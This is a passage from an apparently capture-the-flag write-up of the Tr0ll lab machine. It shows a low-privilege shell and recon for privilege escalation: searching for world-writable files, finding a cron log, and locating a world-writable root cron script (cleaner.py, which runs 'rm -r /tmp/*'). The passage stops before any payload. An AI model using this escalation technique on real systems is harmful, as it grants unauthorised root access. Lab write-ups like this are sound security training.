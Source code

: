 ```

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Mar  1 07:43:07 2017 from 192.168.159.1
Could not chdir to home directory /home/overflow: No such file or directory
$ id
uid=1002(overflow) gid=1002(overflow) groups=1002(overflow)
$ bash
overflow@troll:/$ 
```

## Escalation
After I logged in I tried to find that flag but I could not find it. Since overflow was a low privilege so I had to escalate the privilege and find the flag as root then I'll access more directories.

* I had checked for crontabs and no file is world writable.
* tmp directory is empty

I started check for world writable file in var/. There is no file interesting but one.
```
overflow@troll:/$ l_path=var/*/*;while [ "$l_path" != / -a "$l_path" != . ]; do ls -ld $l_path; l_path=$(dirname -- "$l_path");done;
...
...
-rwxrwxrwx  1 root       root            23 Aug 13  2014 var/log/cronlog
...
...
```

Let check for **var/log/cronlog**
```
overflow@troll:/$ cat var/log/cronlog
*/2 * * * * cleaner.py
```
This is cron job which run every 2 minutes. If I could modify cleaner.py and let python do something for me so I would be able to escalate overflow's privilege. But in the first place, I have to find cleaner.py.

Find cleaner.py
```
overflow@troll:/$ find / -name cleaner.py | grep "cleaner.py"
...
...
...
/lib/log/cleaner.py
```

Let check for the python file
```
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
overflow@troll:/$ ls -al /lib/log/cleaner.py
```
Now good news, I found the python file and it's worldwritable.
